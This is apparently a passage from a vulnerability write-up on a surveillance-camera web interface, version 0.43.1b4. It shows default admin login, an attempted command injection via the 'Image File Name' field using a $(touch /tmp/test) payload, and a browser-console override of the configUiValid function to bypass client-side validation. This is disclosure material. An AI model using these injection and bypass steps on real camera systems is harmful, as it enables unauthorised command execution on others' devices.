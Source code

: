 
### 4. Initial Access
Access web interface at:  
http://127.0.0.1:9999  
Login: `admin` (blank password)

### 5. Camera Setup
Added sample RTSP network camera.  
<img width="1623" height="869" alt="image" src="https://github.com/user-attachments/assets/dcef8d97-062e-408d-bcda-cdd3fd304324" />


### 6. Injection Attempt    
A malicious execution command was entered into the “Still Images” > “Image File Name” ,  but a client-side validation error was encountered.    
```bash
$(touch /tmp/test).%Y-%m-%d-%H-%M-%S
```
Blocked by client-side validation.    
<img width="739" height="104" alt="image" src="https://github.com/user-attachments/assets/0cadf3c1-fa84-4719-9ef8-e60a62ccec6b" />

<img width="611" height="90" alt="image" src="https://github.com/user-attachments/assets/0a2ce196-6513-4246-ae0c-0d2472d0fc89" />



### 7. Client-Side Validation Discovery    
The following script is responsible for the validation: /static/js/main.js?v=0.43.1b4, which references /static/js/ui.js?v=0.43.1b4 to implement the validation conditions.    

File: `/static/js/main.js?v=0.43.1b4` referencing `/static/js/ui.js?v=0.43.1b4`  
```javascript
function configUiValid() {
    $('div.settings').find('.validator').each(function () { this.validate(); });
    var valid = true;
    $('div.settings input, select').each(function () {
        if (this.invalid) { valid = false; return false; }
    });
    return valid;
}
```

### 8. Bypass Technique    
By overriding the **configUiValid** function in the browser console, all validation checks can be bypassed: Enter below snippet in console of the browser (F12 or Ctrl+Shift+I)    

```javascript
configUiValid = function() { 
    return true; 
};
```
<img width="819" height="539" alt="image" src="https://github.com/user-attachments/assets/5256c74d-daf4-4595-bd91-69989f43c5c3" />

